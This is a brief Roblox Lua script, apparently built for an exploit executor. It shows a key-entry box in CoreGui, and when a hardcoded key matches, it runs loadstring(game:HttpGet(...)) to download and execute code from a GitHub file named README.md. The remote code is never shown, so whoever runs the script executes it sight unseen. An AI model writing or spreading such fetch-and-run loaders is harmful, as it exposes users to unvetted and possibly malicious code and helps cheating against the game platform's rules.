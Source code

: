 local screenGui = Instance.new("ScreenGui")
screenGui.Parent = game.CoreGui

local textBox = Instance.new("TextBox")
textBox.Parent = screenGui
textBox.Position = UDim2.new(0.5, -75, 0.5, -25)
textBox.Size = UDim2.new(0, 150, 0, 50)
textBox.PlaceholderText = "Digite a chave"

local confirmButton = Instance.new("TextButton")
confirmButton.Parent = screenGui
confirmButton.Position = UDim2.new(0.5, 20, 0.5, -25)
confirmButton.Size = UDim2.new(0, 50, 0, 50)
confirmButton.Text = "a"

local key = "suaChaveAqui"

confirmButton.MouseButton1Click:Connect(function()
    if textBox.Text == key then
        screenGui:Destroy() 
        print("Acesso concedido!")
        loadstring(game:HttpGet(('https://raw.githubusercontent.com/Noname929798/Qthbvcgb/refs/heads/main/README.md'),true))()
    else
        print("Chave incorreta.")
    end
end)
local player = game.Players.LocalPlayer
